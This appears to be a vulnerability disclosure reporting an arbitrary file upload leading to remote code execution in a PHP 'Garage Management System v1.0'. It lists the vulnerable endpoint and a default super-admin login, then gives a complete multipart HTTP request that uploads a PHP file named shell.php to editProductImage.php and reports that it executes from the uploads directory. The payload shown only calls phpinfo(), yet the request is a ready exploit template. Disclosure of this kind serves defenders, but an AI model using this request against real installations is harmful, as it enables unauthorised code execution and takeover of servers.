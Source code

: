 # Garage Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: Yc liu

vendors: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability url: ip/garage/php_action/editProductImage.php?id=1

Loophole location: arbitrary file upload exists in Garage Management System's editProductImag.php file (RCE).

Request package for file upload：

```sql
POST /garage/php_action/editProductImage.php?id=1 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/garage/editproduct.php?id=1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=m6rramo7f8jalaggbvjh84b1mm
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------2213179266536
Content-Length: 432

-----------------------------2213179266536
Content-Disposition: form-data; name="old_image"

shell.php
-----------------------------2213179266536
Content-Disposition: form-data; name="productImage"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------2213179266536
Content-Disposition: form-data; name="btn"


-----------------------------2213179266536--
```

The files will be uploaded to this directory \garage\assets\myimages

![image](https://user-images.githubusercontent.com/54017627/180588440-1198f559-6960-4b97-98e2-58289bc4c432.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/180588468-7ad64ffb-abe4-4e01-9861-178e67579c62.png)
